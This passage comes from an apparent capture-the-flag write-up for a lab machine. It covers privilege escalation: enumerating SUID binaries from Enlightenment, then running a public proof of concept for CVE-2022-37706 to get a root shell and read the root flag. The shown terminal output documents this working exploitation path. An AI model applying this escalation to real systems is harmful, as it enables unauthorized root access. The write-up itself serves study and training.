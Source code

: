 * We note that `larissa` is in the `adm` group, which grants access to view `syslogs`.
* However, this is a dead end.

Finally, we want to note down the files with interesting permissions:

```
<SNIP>
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
<SNIP>
```

Crucially, we note that the `enlightenment` binary contains SUID binaries `backlight`, `ckpasswd` and `sys`.

* SUID binaries are dangerous, as these binaries are always run in the `root` context, irrespective of the user executing it.

If we run a quick Google search, we find CVE-2022-37706, which is an exploit that targets the `enlightenment_sys` SUID binary.

* This exploit attempts to gain a root shell through the SUID binary.

We will thus get the PoC exploit from GitHub. Then, we run the exploit.

```
larissa@boardlight:~$ ./exploit.sh
./exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
whoami
root
```

Finally, since we have `root`, we can get the root flag.

```
# cd /root/
cd /root/
# cat root.txt
cat root.txt
d140386e0be933831ac3f0c7af535c56
```
